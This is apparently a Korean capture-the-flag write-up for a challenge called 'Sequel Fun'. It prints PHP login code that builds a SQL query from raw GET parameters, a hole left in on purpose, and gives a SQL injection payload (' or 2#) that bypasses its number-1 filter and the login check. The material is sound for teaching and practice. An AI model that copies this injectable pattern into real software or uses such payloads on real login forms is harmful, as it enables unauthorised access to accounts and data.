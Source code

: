 # Sequel Fun
> ## **Overview**
간단한 SQLI 문제이다.  
<pre>``` php
<?php include ("config.php"); if (isset ($_GET['user']) && isset ($_GET['pass'])) { $user = $_GET['user']; $pass = $_GET['pass']; if (strpos ($user, '1') === false && strpos ($pass, '1') === false) { $conn = new mysqli ($servername, $username, $password, $dbname); $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account if ($result === false) { echo "<b>Our servers have run into a query error. Please try again later.</b>"; } else { if ($result->num_rows !== 0) { $row = mysqli_fetch_array ($result, MYSQLI_ASSOC); echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>"; echo "<b class='flag'>"; if ($row ["uid"] === "0") echo $flag; else echo "Welcome elf!"; echo "</b>"; } else { echo "<b>Login fail.</b>"; } } } else { echo "<b>I don't like the number 1 :(</b>"; } } else { echo '<form class="center"> <h1>Santa Login:</h1> <label>Username:</label> <input type="text" name="user" autocomplete="off"><br> <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br> <input type="submit" value="Connect"> </form>'; } ?>
```</pre>  


> ## **solve**
```user=test&pass=' or 2#```
